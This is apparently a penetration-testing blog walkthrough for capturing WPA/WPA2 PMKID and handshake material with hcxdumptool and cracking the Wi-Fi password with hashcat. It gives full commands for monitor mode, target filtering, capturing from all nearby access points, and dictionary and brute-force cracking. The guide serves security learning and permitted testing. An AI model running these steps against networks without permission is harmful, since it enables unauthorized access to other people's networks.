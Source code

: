 ```yaml
---
layout: post
title: "Wireless Pentesting with HCXDumptool"
categories: guide
author:
- th4ntis
---
```


This will be a walkthrough used to obtain wireless handshakes and [PMKID](https://hashcat.net/forum/thread-7717.html) using [Hcxdumptool](https://github.com/ZerBea/hcxdumptool), [Hcxtools](https://github.com/ZerBea/hcxtools), and crack it using [Hashcat](https://github.com/hashcat/hashcat) 

***

# **This is for educational purposes and only to be performed on networks you have permission to do so.**

***

My notes on Wireless in general can be found [here](https://cybersec.th4ntis.com/networking/wireless).

My notes on Hashcat can be found [here](https://cybersec.th4ntis.com/tools/hash-cracking/hashcat).

This will require having a WiFi Adapter that supports monitor mode, also known as packet injection.

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

# HCXDumptool

Find your interface. If you have one network card(capable of monitor mode/packet injection) it will be `wlan0`, but if you have a second wireless USB dongle, it will most likely be `wlan1`.

```
iwconfig
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1059).png" alt=""><figcaption></figcaption></figure>


Put interface into monitor mode

```shell-session
sudo airmon-ng start wlan1
```
<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1060).png" alt=""><figcaption></figcaption></figure>

This may depends on which version you have installed. Eg. v6.2.9 has a different interface than v6.3.0+. I'll be going with the most up to date (currently v.6.3.5)

**This attack is not guaranteed!!**. Not all access points(APs) are vulnerable to the PMKID attack, BUT this can still obtain us EAPOL M1M2M3 or EAPOL M1M2M3M4 auths.

[Info on PMKID on Hashcat Forums](https://hashcat.net/forum/thread-7717.html)

## HCXDumptool v6.2.9

```
hcxdumptool -o (name).pcapng -i (interface) --enable_status=1 --filterlist_ap=target.txt --filtermode=2
```

![](<https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(702).png>)

Once we obtain our PMKID we will see it at the bottom

![](<https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(621).png>)

We MAY see `PMKID:XXXXXXXXXXXXXXX` OR `PMKIDROGUE:XXXXXXXXXXXXXXX`, Even potentially `M1M2ROGUE: XXXXXXXXXXXXXXX`.

* `PMKID:XXXXXXXXXXXXXXX KDV:2` means You captured a PMKID requested from a CLIENT. WPA version (Key Descriptor Version) is WPA 2. You can recover the password from this.
* PMKIDROGUE:`XXXXXXXXXXXXXXX KDV:2` means the PMKID is requested by hcxdumptool and not by a CLIENT. You can recover the password from this.
* `M1M2ROGUE : EAPOL M2` is requested from a CLIENT by hcxdumptool and not from an ACCESS POINT. You can recover the password from this.

## HCXDumptool v6.3.0+ (currently v6.3.5 as of writing this)

To target AP(s) we scan for target(s) with airodump-ng

```
sudo airodump-ng wlan1mon
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Grab the BSSID(s) of our targets and put them in a Berkeley Packet Filter (BPF) `.bpf` file. with tcpdump OR hcxdumptool.

TCPDump

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID -ddd > SSID.bpf
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1).png" alt=""><figcaption></figcaption></figure>

HCXDumptool

```
hcxdumptool --bpfc="wlan addr3 BSSID" > SSID.bpf
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(2).png" alt=""><figcaption></figcaption></figure>

\*\* NOTE: We can target multiple APs

TCPDump:

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID or wlan addr3 BSSID2 -ddd > SSID.bpf
```

HCXDumptool:

```
hcxdumptool --bpfc="wlan addr3 BSSID1 or wlan addr3 BSSID2" > SSID.bpf
```

Now run it against our target

```
sudo hcxdumptool --rds=1 -F --bpf=SSID.bpf -i wlan1mon -w outfile.pcapng
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(3).png" alt=""><figcaption></figcaption></figure>

***

To target all APs around(Not recommended without given permission)

```shell-session
sudo hcxdumptool -i wlan1mon -w outfile.pcapng
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1069).png" alt=""><figcaption></figcaption></figure>

***

After a while we may see the + under the 3 or P of our target. Both of which can be used to obain the password with hashcat.

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1070).png" alt=""><figcaption></figcaption></figure>

# Hash Cracking

So we now have our handshake in .cap format, we can crack the hash and find out the password.

### Hashcat

We have our PMKID in the .pcapng format, we can use hashcat to crack it. First we must use the `hcxpcapng` tool from [HCXtools](https://github.com/ZerBea/hcxtools).

```
sudo hcxpcapngtool -o SSIDHash outfile.cap (or .pcapng)
```

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1071).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(1072).png" alt=""><figcaption></figcaption></figure>

#### Dictionary

If we want to use a dictionary attack, like using `rockyou.txt` for example

```
sudo hashcat -m 22000 SSIDHash wordlist
```

![](<https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(326).png>)

![](<https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(524).png>)

Depending on your hardware, the dictionary you chose, and the password, this may take some time. You can press S for a status to see the time time estimated on finishing, as well as the updated "Recovered.Total" to see the recovered keys"

We can run the same command again with --show appended to the end to see our cracked passwords.

![](<https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(255).png>)

#### Brute Force

If we wanted to run a brute force attack rather than a dictionary attack, it's a similar command

```
hashcat -a 3 -w 3 -m 22000 (hash file) '?l?l?l?l?l?l?l'
```

Replace the `?l` with whatever we deem fit.
```
* ?l = a-z
* ?u = A-Z
* ?d = 0-9
* ?h = 0-9a-f
* ?H = 0-9A-F
* ?s = !"#$%&'()\*+,-./:;<=>?@\[]^\_\`{|}\~
* ?a = ?l?u?d?s
* ?b = 0x00 - 0xff
```
This will cover the basics of the hash cracking with hashcat but it can get SO much more advanced with hashcat.

